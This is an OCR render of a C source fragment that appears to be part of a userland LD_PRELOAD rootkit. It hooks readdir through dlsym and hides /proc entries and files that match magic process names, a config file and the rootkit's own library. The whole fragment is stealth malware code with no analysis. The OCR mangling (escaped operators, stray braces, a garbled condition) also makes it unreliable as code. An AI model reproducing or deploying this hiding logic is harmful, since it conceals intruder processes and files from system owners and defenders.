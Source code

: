 ```
                `}`

            `}`

        `}`

  `}`

  if (!old_readdir)

    old_readdir = dlsym (libc, "readdir");



  do `{`

    dir = old_readdir (dirp);



    if(dir != NULL) `{`

        char dir_name[256];

        char process_name[256];

        if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &amp;&amp; strcmp(dir_name, "/proc") == 0 &amp;&amp; get_process_name(dir-&gt;d_name, process_name) &amp;&amp; strcmp(process_name, MAGIC_STRING) == 0)`{`

            return NULL;

        `}`else if (strcmp(process_name, MAGIC_DEAMON) == 0)`{`

            return NULL;

        `}`

    `}`

    if (dir != NULL

       &amp;&amp; (strcmp (dir-&gt;d_name, ".\0") || strcmp (dir-&gt;d_name, "/\0")))

      continue;

  `}`

  while (dir

        &amp;&amp; (strstr (dir-&gt;d_name, MAGIC_STRING) != 0 || strstr (dir-&gt;d_name, CONFIG_FILE) != 0 || strstr (dir-&gt;d_name, LIB_FILE) != 0));



  return dir;

`}`
```
